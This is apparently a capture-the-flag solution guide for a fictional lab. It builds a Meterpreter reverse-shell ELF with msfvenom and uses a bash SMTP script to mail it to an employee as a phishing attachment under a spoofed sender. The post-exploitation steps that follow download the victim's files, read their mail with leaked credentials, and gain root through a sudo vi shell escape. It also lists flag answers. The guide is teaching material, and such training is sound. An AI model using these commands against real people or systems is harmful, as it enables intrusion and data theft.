# Report Back

_Solution Guide_

## Overview

This solution guide covers how to read the provided shipment report to find out possible suspects, how to craft a malicious payload and use it as a phishing email attachment to obtain remote access to the careless employee's system and then, how to navigate through the exploited system to find the flags.  

All answers for this challenge are generated dynamically. The format for the answer for **Question 1** will be the username of the insider's threat system and it will have the following format: `user-abc123`. The answer to **Questions 2 - 7** will be a random eight-character hexadecimal. For example: `39e0a53e`.

>To understand this solution guide better, you need moderate knowledge of the following software/skills: Telnet, SMTP and IMAP, Scripting, Msfvenom and Metasploit.

## Question 1 

*What is the username of the employee responsible?* 

### Using telnet to view your email

In order to view your email using telnet, you can type the following commands in your terminal. 

1. Logging in:
```
telnet 10.5.5.96 imap

## The purpose of putting a unique word/number before each command is to allow you to associate each response with the corresponding command issued. 

00 LOGIN human@merchant.caste.aurellia tartans
```

2. To see your email folders: 
```
01 LIST “” “*”
```

3. Next, you can decide which folder to navigate to. To know how much mail you have: 
```
02 EXAMINE INBOX
```

4. Go to your INBOX: 
```
03 SELECT INBOX
```

That command will show you how many emails you have, how many are new, how many have you seen, and other useful information. You have two unseen emails.



5. Choose the first email we received: 
```
## This command will show you the complete email including: headers, subject, body, from, to, and more. 

04 FETCH 1 BODY[]
```


6. The first email tells you the goal of your first task and that the second email is a Shipment Report needed to accomplish the first task. Let's see that report. 

### Reading the Shipment Report

1. To read the second email: 
```
05 FETCH 2 BODY[]
```

2. You will get a huge list and, if you look at the email headers, it is a `.csv` file. It would be easier to read this file using LibreOffice Calc. In this example, we just copy and pasted the list to a new file and saved it as a `.csv` file on our Desktop because that is faster than creating a script to download it from telnet or any other similar approach.
3. Open the file. You will see something similar to the screen capture below: 



### Analyzing Shipment Report

1. We need to figure out who to masquerade as to see which employee would download our malicious attachment (to be developed further in this solution guide).
2. Add a filter to the first row of the `ShipmentReport.csv`. Click the first column, go to the **Data** tab, click **AutoFilter**. That should allow you to filter columns.
3. We know that the output of the employee downloading and executing malicious attachments is that route IDs get intercepted by Space Pirates. Shipments are getting lost. Filter the shipment status by just the **Lost** ones.
4. The output looks surprising. Every package where **remy@merchant.caste.aurellia** is the Point of Contact have been lost. Also, Vyla's Manager has always been the same: **dilreia@merchant.caste.aurellia**. Your output might different. 



5. Try sending **remy@merchant.caste.aurellia** a malicious email masquerading as **dilreia@merchant.caste.aurellia** to see what we get. 

### Preparing malicious attachment

Since the first email told you the  main goal is to obtain remote access, let's use **msfvenom** to create a binary that allows us to obtain remote access. 

1. Type the following command: 
```
ip a
```
2. Write your IP address down because you will use it in the next command. In our case, it was `10.5.5.143`. Yours might be different. 
3. Create the binary: 
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.5.5.143 LPORT=4444 -f elf > malicious.elf
```
Here is what we just did. 

First, we called msfvenom. Then, we used parameter `-p` which allows us to specify which payload to use. The payload we chose was `linux/x64/meterpreter/reverse_tcp` because our first email told us that all employees use Linux. The rest of the payload is us choosing a staged payload with Meterpreter, which will make it easier once we gain a session. 

`LHOST` just means `local host`, so here you would enter the IP address you wrote down before. `LPORT` is just a random port (usually 4444 by default) where we will listening once the user executes our malicious attachment. Finally, `-f elf` allows you to specify which type of file we want. For Windows it is `.exe` and for Linux it is `.elf`. And then, any name you want the file to have. 

We are now ready to start listening. 

### Preparing msfconsole

1. Now that we have the malicious file ready, we can configure msfconsole to listen on port 4444 to see when someone clicks our attachment. Follow the next commands to configure it. First, run msfconsole:
``` 
msfconsole
```
2. Let's use `multi/handler` because it is a very popular listener and will work great with our binary.
```
use multi/handler
```
3. Then, select which payload to use. This should be the exact same as your attachment payload. 
```
set payload linux/x64/meterpreter/reverse_tcp
```
4. You can now see the options to configure `multi/handler`:
```
show options
```

5. You only need your local host and local port -- the same as the ones used in the malicious file:
```
set LHOST 10.5.5.143
set LPORT 4444
```
6. Finally, you can write the following to start listening.
```
run
```


### Sending the malicious attachment

This part of the solution guide walks you through sending an attachment via telnet. This adds a few more steps, but we'll write a quick script. 

To send attachments via telnet, encode the attachments to base 64 and add headers. For example: 

```
#!/bin/bash

filename="malicious.elf"
subject="Subject of your email"
txtmessage="Body of your email"
FROM="dilreia@merchant.caste.aurellia"
TO="remy@merchant.caste.aurellia" 


{
sleep 1;
echo "MAIL FROM:<$FROM>"
sleep 1;
echo "RCPT TO: $TO"
sleep 1;
echo "DATA"
sleep 1;
echo "Subject:" $subject
sleep 1;
echo "MIME-Version: 1.0"
sleep 1;
echo "Content-Type: multipart/mixed; boundary="RaNDoMString123__AA_ABCdefghij""
sleep 1;
echo ""
sleep 1;
echo "--RaNDoMString123__AA_ABCdefghij"
sleep 1;
echo "Content-Type: text/plain; charset=iso-8859-1"
sleep 1;
echo "Content-Transfer-Encoding: 8bit"
sleep 1;
echo ""
sleep 1;
echo $txtmessage
sleep 1;
echo ""
sleep 1;
echo ""
sleep 1;
echo "--RaNDoMString123__AA_ABCdefghij"
sleep 1;
echo "Content-Type: application/octet-stream; name="$filename""
sleep 1;
echo "Content-Transfer-Encoding: base64"
sleep 1;
echo "Content-Disposition: attachment; filename="$filename";"
sleep 1;
echo ""
sleep 1;
cat $filename | base64;
sleep 1;
echo ""
sleep 1;
echo ""
sleep 1;
echo "--RaNDoMString123__AA_ABCdefghij--"
sleep 1;
echo ""
sleep 1;
echo "."
sleep 1;
echo "quit"
} | telnet 10.5.5.96 25
```

1. Save the script and give it the proper permissions. We chose to save it on the Desktop and call it `sendmail.sh`. To give proper permissions, type the following: 
```
chmod +x sendmail.sh
```

2. Execute the script:
```
/home/human/Desktop/sendmail.sh
```

3. When your script finishes running, go to your **msfconsole** multi/handler window  you had running and you should see that you now have a meterpreter session! Enter the following command to get the machine's username: 
```
getuid
```



4. In our example, this gave us `remy-4a97e6`. This is the answer toQuestion 1. Time to send this username to `admin@merchant.caste.aurellia` and see what our next task is. Do not close your meterpreter session -- it will be useful later. We can modify our script to send emails easier now.

```
#!/bin/bash

subject="Subject of your email"
txtmessage="remy-4a97e6"
FROM="human@merchant.caste.aurellia"
TO="admin@merchant.caste.aurellia" 


{
sleep 1;
echo "MAIL FROM:<$FROM>"
sleep 1;
echo "RCPT TO: $TO"
sleep 1;
echo "DATA"
sleep 1;
echo "Subject:" $subject
sleep 1;
echo "MIME-Version: 1.0"
sleep 1;
echo "Content-Type: multipart/mixed; boundary="RaNDoMString123__AA_ABCdefghij""
sleep 1;
echo ""
sleep 1;
echo "--RaNDoMString123__AA_ABCdefghij"
sleep 1;
echo "Content-Type: text/plain; charset=iso-8859-1"
sleep 1;
echo "Content-Transfer-Encoding: 8bit"
sleep 1;
echo ""
sleep 1;
echo $txtmessage
sleep 1;
echo ""
sleep 1;
echo "."
sleep 1;
echo "quit"
} | telnet 10.5.5.96 25
```

5. Notice that we changed many of the variables found at the top of the script. Save it, and execute the script again. 
```
/home/human/Desktop/sendmail.sh
```

6. Once you send the username (`remy-4a97e6`) to `admin@merchant.caste.aurellia`, you will receive an email explaining your next task and providing you remy's credentials. 

Your next task is to find route IDs and send them to the admin. 





## Question 2

*Token-1 (received via email from admin@merchant.caste.aurellia)*

### Finding our first route ID

We have open session on msfconsole, so we'll use it to look in common places for downloaded artifacts. 

1. In the meterpreter session, navigate to the Downloads folder: 
```
cd Downloads/
```
2. See what is in the Downloads directory: 
```
ls
```
3. Notice that `remy` did indeed download your malicious file. You will find a document called** TradingRoute.pdf**. Download the artifact: 
```
download TradingRoute.pdf
```
4. We opened our meterpreter session from our Desktop, so **TradingRoute.pdf** will be there. Open it. We'll see a confidential document and our first route ID: `dd82a1`.





5. Send this route id to `admin@merchant.caste.aurellia` to receive a flag. Use the same script used earlier, just remember to change the body of the email (`txtmessage` variable, in our case) to the route ID you found. 

6. Use telnet to view our Inbox: 



The flag is: `026d196756b2047b`!



## Question 3

*Token-2 (received via email from admin@merchant.caste.aurellia)*

### Finding our second route ID

1. In the open meterpreter session, go to the Documents directory: 
```
cd Documents/
```
2. You will see another document called **TradingRoute2.pdf**. Download and open it. 
```
download TradingRoute2.pdf
```





You will see your route ID. In our case, it was: `4da6fd`.

3. Proceed by executing the same script to send another email to the admin with your new route ID. Remember to change the `txtmessage` variable.
4. Check your INBOX for the email with the next flag: `ccf3b2c7ac53109e`.





## Question 4

*Token-3 (received via email from admin@merchant.caste.aurellia)*

### Finding our third route ID

Remember that the admin sent us remy's credentials. 

1. Try logging into remy's email:
```
telnet 10.5.5.96 imap
00 LOGIN remy@merchant.caste.aurellia 5d37b2
01 LIST "" "*"
```


2. Run `EXAMINE` to view how many emails remy has on each mailbox. 
```
02 EXAMINE INBOX
03 EXAMINE Sent
```





It looks like remy has 17 emails in the INBOX and 21 emails in the Sent mailbox.

3. Look at the INBOX mailbox:
```
04 SELECT INBOX
```



4. Use `FETCH` to find that email five (5) contains another route ID.

```
05 FETCH 5 BODY[]
```


5. Use `FETCH` again to find the following email (email 11) which might help us later on. 
```
06 FETCH 11 BODY[]
```



6. Send the new route ID via email to the admin and receive the third flag:  `e7aa5219a2b4a62e`.





## Question 5

*Token-4 (received via email from admin@merchant.caste.aurellia)*

### Finding our fourth route ID

After going through all the emails in the `INBOX`,  you can't find any other route IDs. 

1. Look the `Sent` mailbox:
```
07 SELECT Sent
```


2. Start fetching emails to look for Route IDs. After a few `FETCH` commands, we find a route ID on email 11. 
```
08 FETCH 11 BODY[]
```


4. Send this route ID to the admin to get out fourth flag!





## Question 6

*Token-5 (received via email from admin@merchant.caste.aurellia)*

### Finding our fifth route ID

For this flag, we are going to use remy's credentials to ssh into his machine. But, first we can take advantage of the open meterpreter session and retrieve remy's ip address.

1. Enter:
```
shell
ip a
```


2. ssh using the password the admin gave you. In our case, it was: `5d37b2`.
```
ssh remy-4a97e6@192.168.0.10
```


3. Run the following command to see what remy can perform as sudo. 
```
sudo -l
```


4. Remy can perform `vi` as sudo. Use this to our advantage and perform privilege escalation.

```
sudo vi
:!/bin/bash
```
This got us privilege escalation!

5.  Move to the root directory to find our next route id. 
```
cd /root/
ls
cat TradingRoute5.txt
```



Route ID `39893e` found. 

6. Send it to admin to retrieve the fifth flag: `3da7e77256d8e542`. 




## Question 7

*Token-6 (received via email from admin@merchant.caste.aurellia)*

### Finding our sixth route ID

For the last route ID, recall that we found an email that talked about the document **TradingRoute5.txt**. It told us it used Extended Attribute to hide something.

1. From the ssh connection: 

```
getfattr TradingRoute5.txt
getfattr -n user.comment TradingRoute5.txt
```



...and there's our last route ID: `66a981f6c767b1ad`

2. Send it to the admin and get the last flag. 




